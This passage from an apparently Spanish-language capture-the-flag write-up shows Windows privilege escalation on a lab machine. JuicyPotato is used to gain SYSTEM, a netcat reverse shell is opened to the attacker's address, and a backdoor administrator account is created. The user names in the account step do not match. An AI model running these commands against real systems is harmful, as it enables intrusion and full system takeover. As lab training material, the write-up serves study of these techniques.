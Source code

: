 ```bash
  6e00
CertUtil: -URLCache command completed successfully.

C:\Windows\Temp\Privesc>
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.59 - - [19/Nov/2021 12:57:47] "GET /JuicyPotato.exe HTTP/1.1" 200 -
10.10.10.59 - - [19/Nov/2021 12:57:50] "GET /JuicyPotato.exe HTTP/1.1" 200 -
10.10.10.59 - - [19/Nov/2021 13:05:02] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.59 - - [19/Nov/2021 13:05:09] "GET /nc.exe HTTP/1.1" 200 -
```

Ahora nos entablamos una reverse shell a nuestra máquina:

```bash
C:\Windows\Temp\Privesc> ****JP.exe -t * -p C:\Windows\System32\cmd.exe -l 4444 -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd.exe 10.10.14.27 443"
JP.exe -t * -p C:\Windows\System32\cmd.exe -l 4444 -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd.exe 10.10.14.27 443"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\Privesc>
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.59] 50135
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
C:\Windows\system32>
```

Ya nos encontramos dentro de la máquina como el usuario `nt authority\system` y podemos  visualizar la flag (root.txt).

Otra forma que podriamos utilizar sería crearno un usuario y agregarlo al grupo **Administrators** (**Nota**: A veces es necesario ejecutar el mismo comando varias veces para que aplique y el nombre de usuario no debe contener digitos).

```bash
C:\Windows\Temp\Privesc> JP.exe -t * -p C:\Windows\System32\cmd.exe -l 4444 -a "/c net user kamiyo k4miyo123 /add"

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\Privesc> JP.exe -t * -p C:\Windows\System32\cmd.exe -l 4444 -a "/c net localgroup Administrators k4miyo /add"

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
......
```